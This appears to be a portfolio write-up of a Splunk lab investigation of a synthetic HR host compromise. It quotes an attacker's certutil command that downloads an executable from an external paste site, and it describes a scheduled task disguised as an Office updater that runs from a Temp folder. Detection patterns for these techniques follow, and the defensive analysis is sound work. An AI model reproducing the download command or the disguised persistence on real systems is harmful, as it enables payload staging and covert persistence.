

# Project 07 — HR Host Triage: Homograph User, Scheduled Task Persistence, and Certutil Payload Download (Splunk)

## Overview
An IDS alert suggested suspicious process execution originating from the HR department. Using Windows process creation logs (EventID 4688) in Splunk, I performed quick triage to identify signs of compromise: suspicious/impersonating user accounts, persistence via scheduled tasks, and LOLBIN-based payload retrieval using certutil.

> Note: Lab/synthetic dataset. Screenshots may be lightly sanitized/redacted.

## Dataset
- Windows process creation logs (EventID: 4688) ingested into Splunk
- Splunk index: `win_eventlogs` (March 2022)

## Investigation Steps and Findings

### 1) Establish scope and confirm telemetry
The March 2022 dataset returned **13,959 events** in `index=win_eventlogs`, including EventID **4688 Process Creation** records for HR systems.

---

### 2) Identify potential imposter (homograph) account
I enumerated distinct usernames and observed an account resembling a known user but using a homograph:
- `Ame1ia` (looks like “Amelia” with a “1”)

This is consistent with an impersonation/backdoor technique intended to blend in during review.

---

### 3) Detect suspicious scheduled task activity (persistence)
I pivoted on `schtasks` and reviewed command lines. One entry stood out as suspicious:
- Task name: `OfficeUpdater`
- Trigger: `onstart`
- Executable path: `C:\Users\Chris.fort\AppData\Local\Temp\update.exe`

Legitimate Office update tasks typically do not run binaries from a user Temp directory, making this strong persistence evidence.

---

### 4) Identify LOLBIN download activity (certutil)
To look for payload staging/downloading behavior, I investigated per-user process execution. For user `haroon`, I observed use of `certutil.exe` to download an external file:
- Command: `certutil.exe -urlcache -f - https://controlc.com/e4d11035 benign.exe`

Use of certutil for file retrieval is a common “living off the land” technique to bypass some controls and blend with legitimate Windows tooling.

---

## Key Takeaways
- A likely impersonation/backdoor account (`Ame1ia`) was present (homograph technique).
- A suspicious scheduled task (`OfficeUpdater`) executed a binary from a Temp directory on startup.
- `certutil.exe` was used to download an executable (`benign.exe`) from an external host (`controlc.com`), consistent with payload staging.

## Detection Ideas
- Alert on homograph-style usernames (lookalike accounts) and unusual user creation patterns.
- Hunt for scheduled task creation where `/tr` points to `AppData\Local\Temp\` or other user-writable locations.
- Alert on `schtasks.exe /create` with `onstart` triggers for non-standard binaries.
- Detect LOLBIN downloads: `certutil.exe -urlcache -f - http*` plus a written `.exe`.
- Correlate IDS alerts with host process creation to quickly identify the responsible user/process.

## Indicators of Compromise
See: [iocs/iocs.md](iocs/iocs.md)